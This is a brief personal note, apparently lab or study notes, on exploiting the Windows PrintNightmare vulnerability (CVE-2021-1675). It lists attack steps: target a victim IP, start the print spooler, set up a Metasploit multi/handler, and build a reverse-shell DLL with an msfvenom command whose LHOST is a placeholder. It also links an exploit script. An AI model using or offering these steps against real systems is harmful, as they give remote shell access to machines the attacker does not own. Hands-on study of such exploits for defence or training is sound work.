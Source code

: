 


https://www.youtube.com/watch?v=mhcil49-QJk


victim ip

start print spooler service (search services)

set up msf multi/handler

msfvenom -f dll -p /windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -o reverseShell.dll
	
cve-2021-1675 is the exploit py
[[printNightmare.py]]



